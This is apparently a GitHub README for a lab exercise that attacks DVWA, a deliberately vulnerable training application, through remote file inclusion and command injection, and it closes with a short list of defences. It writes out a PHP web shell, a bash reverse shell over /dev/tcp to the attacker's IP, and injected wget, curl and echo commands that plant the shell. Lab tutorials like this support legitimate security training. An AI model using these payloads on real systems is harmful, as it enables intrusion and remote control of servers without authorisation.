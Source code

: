 # DVWA Exploitation Project

This project demonstrates how to exploit various vulnerabilities in DVWA (Damn Vulnerable Web Application) to upload a PHP shell, gain remote access via a reverse shell, and execute commands on the target machine.

**DISCLAIMER: This project is for educational purposes only. Do not use these techniques on systems you do not own or have explicit permission to test.**

## Table of Contents
1. [Environment Setup](#environment-setup)
2. [Uploading a Shell via Remote File Inclusion (RFI)](#uploading-a-shell-via-remote-file-inclusion-rfi)
3. [Uploading a Shell via Command Injection](#uploading-a-shell-via-command-injection)
4. [Uploading a Shell Using the Echo Command](#uploading-a-shell-using-the-echo-command)
5. [Protection Against These Vulnerabilities](#protection-against-these-vulnerabilities)

## Environment Setup

Before starting, ensure you have the following tools and configuration:

- DVWA: Vulnerable host with adjustable security levels
- Kali Linux: Used to execute attacks from a virtual machine
- Netcat (nc): Tool for obtaining a remote connection
- PHP Shell: PHP script for executing commands, uploading, and deleting files on the target machine

## Uploading a Shell via Remote File Inclusion (RFI)

### Step 1: Prepare the PHP Shell

Create a simple PHP shell (`shell.php`) that allows remote execution of system commands:

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

Host this file on your own server (e.g., using a Python server):

```bash
python3 -m http.server 8000
```

### Step 2: Exploit the RFI Vulnerability

Use the following URL to inject the external file by exploiting the File Inclusion vulnerability in DVWA:

```
http://[DVWA_IP]/dvwa/vulnerabilities/fi/?page=http://[YOUR_IP]:8000/shell.php
```

### Step 3: Obtain a Reverse Shell with Netcat

Modify the `shell.php` file to open a connection to your machine:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/[YOUR_IP]/[PORT] 0>&1'");
?>
```

Set up a listener on your machine with Netcat:

```bash
nc -lnvp [PORT]
```

Navigate to the following URL in your browser to execute the shell:

```
http://[DVWA_IP]/dvwa/vulnerabilities/fi/?page=http://[YOUR_IP]:8000/shell.php
```

## Uploading a Shell via Command Injection

### Step 1: Exploit the Vulnerability

Use the command injection vulnerability in DVWA's IP input field for ping:

```bash
; wget http://[YOUR_IP]:8000/shell.php -O /var/www/html/shell.php
```

Or, if wget is not available:

```bash
; curl http://[YOUR_IP]:8000/shell.php -o /var/www/html/shell.php
```

### Step 2: Obtain a Shell via Netcat

Follow the same process as in the RFI method to set up a Netcat listener and connect to the uploaded shell.

## Uploading a Shell Using the Echo Command

If wget or curl are not available, use the echo command to write the shell code directly:

```php
; echo "<?php system(\$_GET['cmd']); ?>" > /var/www/html/shell.php
```

Access the shell via:

```
http://[DVWA_IP]/shell.php?cmd=ls
```

## Protection Against These Vulnerabilities

### a) Protection against Remote File Inclusion (RFI)

- Disable `allow_url_include` in php.ini
- Validate and filter user inputs rigorously
- Use whitelisting for accessible files

### b) Protection against Command Injection

- Use secure functions like `escapeshellcmd()` or `escapeshellarg()` to escape special characters in commands
- Never directly accept user inputs for system commands
- Use server-side alternatives like APIs to perform tasks instead of directly executing commands

**Remember: Always practice ethical hacking and obtain proper authorization before testing security vulnerabilities.**


Author: github.com/dgthegeek